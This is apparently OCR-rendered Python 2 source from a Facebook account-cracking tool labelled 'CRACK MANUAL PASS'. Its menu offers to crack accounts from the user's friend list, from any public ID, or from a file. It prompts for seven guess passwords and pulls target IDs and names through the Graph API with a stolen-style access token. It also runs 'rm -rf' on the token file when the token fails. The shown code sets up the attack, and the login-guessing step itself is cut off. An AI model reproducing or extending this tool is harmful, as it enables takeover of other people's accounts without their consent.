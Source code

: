 ###### CRACK MANUAL PASS ######

def choice_menu():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 LUAR.py")
	os.system("clear")
	print (logo)
	print (40*"-")
	print ("[1] Crack From Friend List")
	print ("[2] Crack From Any Public ID")
	print ("[3] Crack From File")
	print ("[0] Back")
	print (40*"-")
	choice_action()

def choice_action():
	bch = raw_input("\n>>>")
	if bch =="":
		print ("[!] Fill in correctly")
		choice_action()
	elif bch =="1":
		os.system("clear")
		print (logo)
		print (40*"-")
		pass1=raw_input(" Put Password No 1 : ")
		pass2=raw_input(" Put Password No 2 : ")
		pass3=raw_input(" Put Password No 3 : ")
		pass4=raw_input(" Put Password No 4 : ")
		pass5=raw_input(" Put Password No 5 : ")
		pass6=raw_input(" Put Password No 6 : ")
		pass7=raw_input(" Put Password No 7 : ")
		r = session.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z["data"]:
			id.append(s["id"])
	elif bch =="2":
		os.system("clear")
		print (logo)
		idt = raw_input("[✓] Enter ID : ")
		pass1=raw_input(" Put Password No 1 : ")
		pass2=raw_input(" Put Password No 2 : ")
		pass3=raw_input(" Put Password No 3 : ")
		pass4=raw_input(" Put Password No 4 : ")
		pass5=raw_input(" Put Password No 5 : ")
		pass6=raw_input(" Put Password No 6 : ")
		pass7=raw_input(" Put Password No 7 : ")
		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")